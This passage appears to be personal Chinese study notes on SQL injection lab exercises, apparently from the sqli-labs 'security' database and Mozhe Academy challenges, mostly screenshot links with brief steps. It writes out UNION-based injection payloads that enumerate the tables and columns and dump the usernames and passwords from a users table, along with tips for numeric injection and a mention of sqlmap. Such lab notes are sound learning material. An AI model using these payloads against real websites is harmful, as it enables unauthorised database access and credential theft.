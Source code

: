 ![截图录屏_选择区域_20200526235354](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235354.png)

* 输出当前表的列数，发现为4列

![截图录屏_选择区域_20200526235422](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235422.png)

![截图录屏_选择区域_20200526235433](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235433.png)

* 查看回显位，2和3为回显位，可用来输出有用信息

![截图录屏_选择区域_20200526235704](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235704.png)

* 输出当前数据库名称

![截图录屏_选择区域_20200526235837](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200526235837.png)

* 查看当前库中的表

  `id=q' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),database()-- 1`

![截图录屏_选择区域_20200527000100](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200527000100.png)

* 查看users表中的列

  `id=q' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security'),(select group_concat(column_name) from information_schema.columns where table_name = 'users')-- 1`

![截图录屏_选择区域_20200527000100](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200527000343.png)

* 查看username，password列中信息

  `id=p' union select 1,(select group_concat(username) from security.users),(select group_concat(password) from security.users)-- 1`

![截图录屏_选择区域_20200527000501](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200527000501.png)

（2）数值型注入

* 通过and 1 = 2判断

* 看回显时id取不太可能的数字，比如-1
* 不需要注释

（3）

2.墨者学院

（1）SQL注入实战-MySQL

![截图录屏_选择区域_20200626121148](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20200626121148.png)

使用sqlmap

（2）SQL注入漏洞测试(宽字节)
